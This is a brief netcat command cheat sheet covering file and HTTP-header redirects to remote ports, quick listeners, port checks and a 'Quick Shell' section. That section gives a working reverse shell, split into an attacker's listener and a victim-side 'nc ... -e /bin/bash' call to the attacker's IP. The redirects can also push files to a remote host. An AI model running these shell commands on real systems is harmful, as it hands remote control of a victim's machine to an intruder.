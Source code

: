 Netcat - Redirect file or HTTP header to a remote port
-------------------------------------------
UDP redirect file to port 37
```
nc -v -u xxx.xxx.xxx.xxx 37 < ./file.txt
```
TCP redirect file to port 80
```
nc xxx.xxx.xxx.xxx 80 < ./file.txt
```
TCP redirect http post-headers to port 80
```
nc xxx.xxx.xxx.xxx 80 < ./post-headers.txt
```

Netcat - Quick Listener
-------------------------------------------
Start Listener
```
nc -l 3333
```
Connect to Listener
```
nc xxx.xxx.xxx.xxx 3333
```

Netcat - Quick Shell
-------------------------------------------
On attackers server
```
nc -lvvnp 1337
```
On victims server
```
nc <attackers server ip> 1337 -e /bin/bash
nc <attackers server ip> 1337 -e /bin/bash &
```

Netcat - Check if a port is open
-------------------------------------------
TCP
```
nc -z -v xxx.xxx.xxx.xxx <portnumber>
```
UDP
```
nc -z -v -u xxx.xxx.xxx.xxx <portnumber>
```
